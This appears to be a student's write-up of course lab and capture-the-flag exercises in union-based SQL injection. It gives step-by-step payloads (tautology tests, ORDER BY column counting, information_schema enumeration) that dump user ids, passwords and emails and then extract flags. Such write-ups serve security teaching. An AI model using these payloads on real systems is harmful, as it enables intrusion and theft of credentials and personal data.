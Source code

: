 ```yaml
---
title: "Week 6 - Assignment"
date: 2025-05-29
categories: [assignment]
layout: single
author_profile: true
sidebar:
  nav: "main"
read_time: true
toc: true
toc_label: "On this page"
toc_sticky: true
---
```


# Assignment 6 - 1 / Extracting Only doldol's Data

## (1). Identify the SQL Injection point
   
![스크린샷 2025-05-29 120037](https://github.com/user-attachments/assets/a7bf66d0-a58e-470b-b149-ac64d4603cd6)

By injecting a condition that always returns true (' OR '1'='1), all user accounts were displayed, confirming that the input is directly inserted into the SQL query.

## (2) Use ORDER BY to find the number of columns

Try injecting:

```
1234' order by [num] #
```

![image](https://github.com/user-attachments/assets/5bac249a-d89f-431d-8ddd-eed745916420)

- No error occurs for Order by 1 to 4
- However order by 5 makes the error
  
This tells us that the query has exactly 4 columns, since trying to sort by a non-existent fifth column causes a failure.

## (3) Use UNION SELECT to determine which columns are displayed

![image](https://github.com/user-attachments/assets/192e5e74-9c6b-4b59-be53-ab9bb6cd305c)

Each number (1, 2, 3, 4) is displayed in a different column on the page.
This confirms that **all four columns** are reflected in the output, meaning we can use any of them to display extracted data later (like usernames, emails, flags, etc.).


## (4) Use database() to find the current database name

![image](https://github.com/user-attachments/assets/e91cf7b5-2d25-409c-a2bb-c9815ce61339)

Try injecting:

```
1234' union select datbase(), 2, 3, 4#
```
The name of database is "segfault_sql"	


## (5) Use information_schema.tables to list all table names

![image](https://github.com/user-attachments/assets/45460560-556b-4688-ae25-27218c0a758c)

Try injecting:

```
1234' union select table_name, 2, 3, 4 from information_schema.tables where table_schema='segfault_sql' #
```
The names of the tables are **game, member, secret and secret_member**.

## (6) Use information_schema.columns to list all column names



Try injecting:

```
1234' union select column_name, 2, 3, 4 from information_schema.columns where table_name = 'member' #
```
The names of the coulmns in **member** table are **user_id, user_pass,	name, user_level, info ,id, pass and email**.



## (7) Finally, use UNION SELECT to extract the data

![image](https://github.com/user-attachments/assets/735d9c72-d0b8-49e1-8f4d-a430dda46d0c)
```
1234' union select id, pass, email, info from member #
```

To extract only **doldol**'s data, modify the payload as follows:

```
' union select id, pass, email, info from member where id='doldol' #
```

**Result:**

![image](https://github.com/user-attachments/assets/dbda74c3-e0f9-4c40-a20f-c9cc8297b36b)

Success!




---

# Assignment 6 - 2 / CTF SQL Injection 1

Find the SQL Injection point
```
bello' or '1'='1 
```
![image](https://github.com/user-attachments/assets/2ac94953-e134-442e-9fca-c7f255916af6)
Result: All user data is displayed → confirms that the input is directly injected into the SQL query.


we use the ORDER BY clause with increasing numbers to find how many columns the original query returns.
```
bello' order by [num] #
```
![image](https://github.com/user-attachments/assets/68c8e490-72c7-41a5-a08e-807ece73ef22)
No error up to ORDER BY 4, but ORDER BY 5 triggers an error.
Conclusion: The query has 4 columns.


We use the UNION SELECT technique to retrieve the name of the current database.
```
bello' union select database(), 2 ,3 ,4 #
```
![image](https://github.com/user-attachments/assets/07c57dd6-43f3-4e5f-bcf1-78c98badbcc9)
Name of Databse: sqli_1


Find the tables in Database
```
' union select table_name, 2, 3 ,4 from information_schema.tables where table_schema = 'sqli_1' #
```
![image](https://github.com/user-attachments/assets/bff2111c-d1cf-49d2-9863-ef79d7211b3a)
Result: Found a table named flag_table.



Find the coulmns in **Flag_table**
```
' union select column_name, 2, 3 ,4 from information_schema.columns where table_name = 'flag_table' #
```
![image](https://github.com/user-attachments/assets/e029b62d-99b6-421d-82cd-3fe6ed6ed37e)


Find the **FLAG** 
```
' union select flag, 2, 3, 4 from flag_table # 
```
![스크린샷 2025-05-29 172917](https://github.com/user-attachments/assets/785e3dc8-bf25-40da-9916-c4ba81273669)


# Assignment 6 - 3 / CTF SQL Injection 2

Firstly, when I searched using any random string, a simple and generic result appeared:
| ID           | Level   | Rank Point | Info |
|--------------|---------|------------|------|
| abcde | ******* | *******    |      |

However, when I searched for normaltic, a special sentence appeared in the info column:

| ID         | Level   | Rank Point | Info                    |
|------------|---------|------------|-------------------------|
| normaltic  | ******* | ********   | my name is normaltic   |

This led me to suspect that the info value is only shown when the ID is specifically 'normaltic'. I assumed that the backend query might look something like this:
```
select ?? from ?? where id =’normaltic’
```
Thus, I attempted a union-based injection:
normaltic' AND '1' = '2' UNION SELECT 1,2,3,4,5,6 #

I assumed that if I inserted a value into the 6th column, it would appear in the info section.

![image](https://github.com/user-attachments/assets/c07dd357-0910-42d0-bcf4-fa236c8cff40)

Founded name of database
Databse: sqli_5
![image](https://github.com/user-attachments/assets/a2306616-c605-4813-9ac8-69661141d422)

Founded name of Table
Table: flag_honey
![image](https://github.com/user-attachments/assets/e4cbe209-c72b-41e4-8298-25c515eebb20)

Founded coulmns of flag_honey
coulmn: flag
![image](https://github.com/user-attachments/assets/18a637ab-8ac5-44e2-8075-69cbf270953a)

Got Fooled...
I tried extracting the flag from the flag_honey table, but it returned nothing.
![image](https://github.com/user-attachments/assets/915a5c10-4288-40b5-abc9-e281ab370c78)

Suspecting There Might Be Other Tables I started to suspect that there could be additional tables I hadn't discovered yet.
So I used the following payloads to enumerate more tables using **LIMIT**

```
normaltic' AND '1'='2' UNION SELECT 1,2,3,4,5,table_name FROM information_schema.tables WHERE table_schema = 'sqli_5' LIMIT 1, 1 #
normaltic' AND '1'='2' UNION SELECT 1,2,3,4,5,table_name FROM information_schema.tables WHERE table_schema = 'sqli_5' LIMIT 2, 2 #
```
As a result, I found two more tables: game and secret.

![image](https://github.com/user-attachments/assets/b0015620-3027-4b86-9d0d-991448e31fc5)

![image](https://github.com/user-attachments/assets/562b0d3e-23b1-4d8f-b682-4559b9c48d42)


While inspecting the secret table, I found that it also had a flag column.
![image](https://github.com/user-attachments/assets/a29af690-9b7b-4a92-bdb9-ccea8cd89191)

Fooled Again…
I tried dumping the flag but again, no output was shown.
![image](https://github.com/user-attachments/assets/ce3ddb38-2488-407e-a6e8-4b0df351c4e4)

This time, I assumed the flag might be in another row, not the first one.
![image](https://github.com/user-attachments/assets/7a3bc626-b757-4ddc-a18a-54bd0e488058)
Finally, I got the flag!
